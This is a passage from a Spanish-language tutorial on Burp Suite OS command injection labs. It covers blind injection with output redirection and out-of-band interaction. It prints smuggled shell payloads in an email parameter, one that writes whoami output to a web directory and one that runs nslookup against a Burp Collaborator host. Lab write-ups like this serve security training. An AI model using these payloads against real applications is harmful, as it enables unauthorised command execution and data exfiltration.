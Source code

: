 Luego, hacer una request de la URL a ese directorio para poder tener acceso al output.

Interceptamos la request de feedback, la modificamos adecuadamente introduciendo en el valor del parámetro email: ||whoami>/var/www/images/output.txt||

Y seguidamente intentamos ver una de las fotos y cambiamos el valor del parámetro filename a output.txt:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220405184126.png' | relative_url }}" text-align="center"/>
</div>

<br />

##### 4.2.3. Explotando una vulnerabilidad OS comand injection utilizando OAST.

También podemos emplear la téncica OAST como lo hemos hecho en el apartado de SQLi para inyectar un payload que entre otras cosas haga una interacción con un sistema que nosotros podamos ver como el client BurpCollaborator.

<br />

**Laboratorio 4: Blind OS command injetion with out-of-band interaction**

Este laboratorio contiene una vulnerabilidad de inyección de comandos ciega en la función de feedback. La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo

En primer lugar, accedemos al laboratorio en el que sabemos que el parámetro vulnerable a la inyección de comandos es el parámetro email e introducimos el siguiente payload:

```default
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

De esa forma haremos una búsqueda DNS.

<br />

**Laboratorio 5: Blind OS command injection with out-of-band data exfiltration**

Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos ciegos del sistema operativo en la función de feedback.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, ejecute el comando whoami y extraiga el resultado a través de una consulta de DNS a Burp Collaborator. Deberá ingresar el nombre del usuario actual para completar el laboratorio.

De nuevo, ingresamos en el laboratorio y lo primero que hacemos es cargar el cliente de BurpCollaborator tal y como hicimos en SQLi:
